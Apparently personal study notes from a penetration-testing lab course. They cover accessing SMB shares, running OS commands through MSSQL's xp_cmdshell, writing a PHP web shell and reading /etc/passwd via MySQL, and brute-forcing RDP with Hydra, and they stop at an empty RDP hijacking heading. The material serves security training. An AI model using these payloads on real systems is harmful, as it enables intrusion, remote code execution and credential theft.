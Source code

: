 # SMB
already done previously.

In windows example with DIR

    C:\htb> dir \\192.168.220.129\Finance\

In windows example with net use

    net use n: \\192.168.220.129\Finance

We can add the password in it as well.

    net use n: \\192.168.220.129\Finance /user:plaintext Password123

Using Powershell

    Get-ChildItem \\192.168.220.129\Finance\
using new-PSDrive instead of net use 

    New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem"

With password, it's getting quite complicated 

    PS C:\htb> $username = 'plaintext'
    PS C:\htb> $password = 'Password123'
    PS C:\htb> $secpassword = ConvertTo-SecureString $password -AsPlainText -Force
    PS C:\htb> $cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
    PS C:\htb> New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred

Using Linux we can use the mount command.
We create a mount directory and mount the samba share.

    MysterPedro@htb[/htb]$ sudo mkdir /mnt/Finance
    MysterPedro@htb[/htb]$ sudo mount -t cifs -o username=plaintext,password=Password123,domain=. //192.168.220.129/Finance /mnt/Finance

# Databases:
## MSSQL


Best use dbeaver, I think it's great to have a database GUI.
or in command line linux use : 

    sqsh -S 10.129.20.13 -U username -P Password123
    mssqlclient.py -p 1433 julio@10.129.203.7 

Windows:

    sqlcmd -S 10.129.20.13 -U username -P Password123

in MSSQL we can execute cmd command  with xp_cmdshell example:

    1> xp_cmdshell 'whoami'
    2> GO

    output
    -----------------------------
    no service\mssql$sqlexpress
    NULL
    (2 rows affected)

if it's not activated, we ca do so :

    -- To allow advanced options to be changed.  
    EXECUTE sp_configure 'show advanced options', 1
    GO

    -- To update the currently configured value for advanced options.  
    RECONFIGURE
    GO  

    -- To enable the feature.  
    EXECUTE sp_configure 'xp_cmdshell', 1
    GO  

    -- To update the currently configured value for this feature.  
    RECONFIGURE
    GO

Impersonate Existing Users with MSSQL

    1> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE' GO

    name
    -----------------------------------------------
    sa
    ben
    valentin

    (3 rows affected)

## MYSQL

Regarding mysql we can write a shell into a web file for example:

    mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

    Query OK, 1 row affected (0.001 sec)

Sometimes it's restricted; to check whether it's doable or not:

    show variables like "secure_file_priv";

to read a file 

    mysql> select LOAD_FILE("/etc/passwd");

## RDP : remote desktop protocol

s a proprietary protocol developed by Microsoft which provides a user with a graphical interface to connect to another computer over a network connection on port 3389

it can be brute forced with Hydra

    hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

RDP Session Hijacking